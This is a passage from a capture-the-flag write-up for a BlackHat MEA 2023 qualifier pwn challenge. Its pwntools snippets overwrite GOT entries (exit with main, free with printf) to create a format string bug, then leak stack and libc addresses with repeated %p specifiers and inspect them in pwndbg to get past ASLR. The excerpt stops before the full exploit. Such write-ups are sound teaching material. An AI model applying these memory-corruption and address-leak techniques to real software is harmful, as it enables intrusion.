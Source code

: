 ```python

log.info("Overwriting exit(%#x) with main(%#x)" % (elf.got.exit, elf.sym.main))
io.sendlineafter(b"Age: ", overflow(elf.got.exit))
io.sendlineafter(b'Name: ', p32(elf.sym.main)[:3])

log.info("Overwriting free(%#x) with printf(%#x)" % (elf.got.free, elf.sym.printf))
io.sendlineafter(b"Age: ", overflow(elf.got.free))
io.sendlineafter(b'Name: ', p32(elf.sym.printf)[:3])

io.sendlineafter(b"Age: ", b"1")
io.sendlineafter(b"Name: ", b"HELLO|%p|%p")

print(io.recv())

```

![Alt text](/static/writeups/blackhatmea23-quals/image-6.png)

Well, we can now see that `HELLO`, along with two memory addresses (one is `nil`) has been printed out. This confirms that we have successfully overwritten `free` with `printf` and we have the Format String Bug.

### Leaking the libc address using the fsb vulnerability

Now, we have a Format String Bug, which can give us address leaks. What we have to do now, is find the base-address of the binary or libc. So, for that, let's try and send 20 `%p`'s and see what we get.

```python
io.sendlineafter(b"Name: ", b"HELLO|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|")
```

Now, in order to see what these addresses are, we will attach gdb to our process, this will become:

```python
gdb.attach(io, "init-pwndbg")
```

![Alt text](/static/writeups/blackhatmea23-quals/image-7.png)

Now, we got quite a lot of addresses leaked. Now, let's see in gdb, firstly the memory mapping i.e. where each address is mapped to within the binary, we can use `vmmap` command in pwndbg

![Alt text](/static/writeups/blackhatmea23-quals/image-8.png)

Now, since we're looking for a libc leak, we need to find addresses that start with `0x7face` prefix

> NOTE: This address will change at each run because of ASLR, therefore we simply need to subtract the leaked address with the current base of LIBC. On each launch, the leaked value will be `offset` away from the base of libc.

![Alt text](/static/writeups/blackhatmea23-quals/image-9.png)
